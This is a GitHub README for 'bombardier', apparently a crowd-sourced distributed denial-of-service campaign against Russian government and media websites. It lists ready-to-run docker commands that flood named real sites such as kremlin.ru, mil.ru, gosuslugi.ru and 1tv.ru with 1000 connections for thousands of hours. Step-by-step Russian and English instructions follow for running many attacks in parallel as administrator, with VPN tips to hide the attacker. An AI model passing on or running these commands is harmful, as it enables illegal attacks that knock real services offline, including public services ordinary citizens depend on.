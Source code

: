 # bombardier

Fight against propoganda

## If you have kubertnetes cluster `./run_all_kuber.sh`
[Kubernetes Docs](docs/digital_ocean_kubernetes.md)

The easiest way:

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`  

## Инструкция для пользователей Windows и Mac:

1. Установить Docker: https://www.docker.com/products/docker-desktop
2. Запустить докер и убедиться, что Docker Started
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md
4. Для лучшего результата используйте ВПН and :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - Proton VPN: https://protonvpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Найти в программах Windows Command Prompt и запустить от имени Администратора
6. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт)
7. Запустить все цели из resources.txt для виндовс из Консли run_windows.bat для Linux/Mac `./run_all_docker.sh` для целей из `resources.txt` (или `./run_all_docker.sh файл-с-целями`)
8. Для выполнения с конкретными целями - Скопировать скрипт (например `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`) и нажать энтер
9. Убедиться, что процесс пошёл
10. Ждать падения рашки

## Instruction for Windows and Mac:

1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Go here https://github.com/almerico/bombardier/blob/main/README.md
4. For best result use VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - Proton VPN: https://protonvpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin.
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for `resources.txt` (or `./run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://mid.ru` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script)
8. Make sure that the process started
9. Wait till russia fall
